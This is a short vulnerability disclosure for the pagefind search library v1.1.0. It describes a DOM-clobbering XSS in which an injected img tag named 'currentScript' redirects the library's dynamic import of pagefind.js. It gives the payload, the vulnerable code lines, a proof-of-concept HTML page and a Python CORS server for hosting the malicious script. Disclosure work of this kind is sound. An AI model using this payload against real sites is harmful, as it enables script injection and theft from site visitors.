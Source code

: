 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None

### Library

Built locally
+ `https://github.com/cloudcannon/pagefind`

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<html>
site
<img name="currentScript" src="blob:http://localhost:8000/ui.js"></img>

<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
    });
</script>
</html>
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```
